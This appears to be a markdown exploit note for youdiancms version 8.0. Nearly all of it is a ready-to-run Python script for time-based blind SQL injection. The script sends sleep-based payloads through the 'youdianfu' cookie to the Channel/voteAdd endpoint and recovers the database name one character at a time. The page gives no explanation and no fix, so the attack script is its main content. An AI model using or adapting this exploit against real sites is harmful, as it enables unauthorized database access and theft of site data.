

### youdiancms（友点）

```
版本信息：8.0
```

#### sql注入

```
import requests
import string
import time

s = requests.session()


def check(baseurl, payload):
    url = baseurl + "/index.php/Channel/voteAdd"
    cookies = {
        "PHPSESSID": "pn9iofrfklen68u4205veml8s0",
        "youdianAdminLangSet": "cn",
        "youdianfu[0]": "exp",
        "youdianfu[1]": payload
    }
    starttime = time.time()
    s.get(url, cookies=cookies)
    endtime = time.time()
    if endtime - starttime >= 3:
        return True
    return False


def getLength(baseurl):
    for i in range(30):
        payload = "=(select 1 from(select if(length(database())={0},sleep(3),0))a)".format(str(i))
        if check(baseurl, payload):
            print("[+] database len: " + str(i))
            return i


def getDatabase(baseurl, length):
    stringset = string.digits + string.ascii_letters
    database = ""
    for i in range(length):
        for j in stringset:
            payload = "=(select 1 from(select if(ascii(substr(database(), {0}, 1))={1},sleep(3),0))a)".format(
                str(i + 1), str(ord(j)))
            if check(baseurl, payload):
                database += str(j)
                print("[+] " + database)


if __name__ == '__main__':
    url = 'http://192.168.81.195:9999/'
    length = getLength(url)
    getDatabase(url, length)
```



